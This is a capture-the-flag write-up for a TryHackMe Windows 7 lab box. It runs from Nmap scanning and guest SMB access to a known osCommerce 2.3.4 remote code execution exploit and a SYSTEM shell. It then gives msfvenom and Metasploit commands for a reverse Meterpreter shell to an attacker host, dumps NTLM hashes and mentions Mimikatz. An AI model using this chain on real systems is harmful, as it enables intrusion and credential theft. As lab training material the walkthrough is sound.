






This box is rated easy difficulty on THM. It involves us finding a version of OsCommerce that is vulnerable to RCE which grants us a high-level shell on the box. After stabilizing our shell through meterpreter, we can either use Metasploit or Mimikatz to extract user hashes.

_Hack into this Windows machine and escalate your privileges to Administrator._

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -sCV 10.64.153.213 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-02 00:38 CST
Nmap scan report for 10.64.153.213
Host is up (0.073s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Bad request!
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 0a:ff:d0:52:56:45 (unknown)
| smb2-time: 
|   date: 2026-03-02T06:39:43
|_  start_date: 2026-03-02T06:33:14
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-03-02T06:39:42+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.25 seconds
```

Looks like this system is running an ancient OS with Windows 7 and has a few web servers open. The main ports I'll focus on are the websites on 80,443, and 8080, as well as MySQL on 3306, along with SMB on 445.

I fire up Gobuster to search for subdirectories/subdomains in the background before heading over to them. The landing page on port 80 shows a typical 404 page for Microsoft IIS and my scans didn't find anything, so I can safely rule this one out.



## RCE via OsCommerce
Next up is HTTPS, which discloses that the server is using OsCommerce v2.3.4 to host items on their platform. This port doesn't hold a real webpage but does give us access to this service's folder.



The site on port 8080 is the exact same as this one, just without SSL encryption as it's HTTP. Before doing a deep dive on the websites, I want to make sure nothing is sitting on SMB for us. Using Netexec shows that Guest authentication is enabled and that we have read permissions for a Users share. 



This looks like the standard folder and there isn't much in here for us. Heading back to the sites OsCommerce directory reveals that whenever we hover over one of the products, the page redirects us to a page that uses the `products_id` parameter to fetch content from the MySQL database. Note that these links only point to localhost, so we'll have to replace that with the box's IP address in order to reach them.



Just by looking at it, this seems pretty vulnerable to SQL injection, however I take to Searchsploit and Google for any known vulnerabilities as we already have the version. Those results corroborate my theory that this page can be used to enumerate the database, but I also find this [Github repository](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution) containing a PoC for remote code execution.

## Shell as NT AUTHORITY\SYSTEM
This exploit is made possible when the `/install` directory is not removed by the site's administrator. RCE is done through the `install.php` finish process and by injecting PHP payload into the `db_database` parameter. After arbitrary code is injected, we can read the system command output from the vulnerable `configure.php` page. Let's give it a shot by supplying the URL up until the `/catalogs` directory.



This works to get a successful shell on the box as `NT AUTHORITY\SYSTEM` and we can grab the root flag under the `C:\Users\Administrator\Desktop` folder. This shell is kind of crappy since we can't move outside the current working directory, so I switch over to a Metasploit module which does relatively the same thing but allows us to upload a Meterpreter shell much easier.

## Dumping Hashes
Once we have our first Meterpreter shell, we use that to upload a second reverse shell made with Msfvenom. Make sure to also setup another Metasploit handler in another tab to listen for this connection.

```
#Creating reverse shell with Mfsvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=9005 -f exe > shell.exe

#Uploading reverse shell from local machine to meterpreter session
upload shell.exe

#Setting up handler in second tab
msfconsole
use multi/handler
set LHOST [ATTACKER_IP]
SET LPORT 9005
run

#Running first shell from remote machine to catch second meterpreter session
execute -f shell.exe
```

Once we finally have a stable shell on the box, we can run the built-in hashdump command in Metsaploit to extract all NTLM hashes. Sending the "Lab" user's over to [crackstation.net](https://crackstation.net/) or [hashes.com](https://hashes.com/en/decrypt/hash) will grant us the plaintext version and complete this box.



If you didn't want to go through the hassle of getting another shell working, we could've simply uploaded a tool like [Mimikatz](https://github.com/ParrotSec/mimikatz) to extract user hashes from memory instead.

That's all folks, this box was pretty easy but can be a bit tricky to get a stable shell if you're confused as to what's happening after the exploit. I hope this was helpful to anyone following along or stuck and happy hacking!
